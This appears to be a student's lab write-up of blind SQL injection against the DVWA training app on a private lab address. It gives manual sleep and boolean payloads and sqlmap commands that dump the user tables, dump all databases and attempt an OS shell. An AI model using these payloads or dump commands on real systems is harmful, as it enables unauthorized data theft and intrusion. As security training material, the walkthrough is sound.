 Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. 

https://portswigger.net/web-security/sql-injection/blind

Low:


```1' and sleep(5)#```



This command will help us determine how many columns there are.
1' and order by 1
1' and order by 2


This will verify the length of the database(rows): 
```1' and length(database())=4#```






Medium:

This one there is no button so you need to use Burp or Caido 

```id=1+and+sleep(5)+Submit=Submit```  will give us a 5 second sleep




High:

In this instance, we have a seperate input screen



##SQLmap

We would now like to use SQLmap to help automate the process.

Submit something into the field: 1
	- Copy the URL 
	- Take the cookie from the 'inspect' page under 'Storage', 'Cookies'

	


```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=bdfct00lniuj5o662f8qo13qgg"```






Info:

	Linux | MySQL
	SLEEP: injectable
	UNION: Injectable
	2 Columns 
	
Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ```id=1' AND 5985=5985 AND 'XjUI'='XjUI&Submit=Submit```

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ```id=1' AND (SELECT 3077 FROM (SELECT(SLEEP(5)))MsJJ) AND 'HcJn'='HcJn&Submit=Submit```

To view the results use sqllitebrowser:
	navigate to: /home/kali/.local/share/sqlmap/output/192.168.10.123
	 sqlitebrowser session.sqlite



We can use this command to find the name of the database:
```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" --dbs```



Which gives up the name: dvwa
This command will give up the names of the tables:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="P" -D dvwa --tables```

users and guestbook

Command to get the info out of the users table

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --columns```

Or:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --dump```





So, the other 'guestbook' table was full of my injection attempts. 



What seems like an easier way to do this is to create a file containing the GET request. 
Grab the get request from caido/burp
Paste it into Vi or any text editor
use the command: ```sqlmap -r [filename] --dump```

This will give you a dump of everything in all of the databases associated with the website. 




If you need a shell:
```sqlmap -r [filename] --os-shell``` (I struggled to get this working and didn't have time to explore)

Wizard: Low
```sqlmap --wizard --dump```
Then enter the url: ```http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#```

Wizard: Medium
```sqlmap --wizard --dump```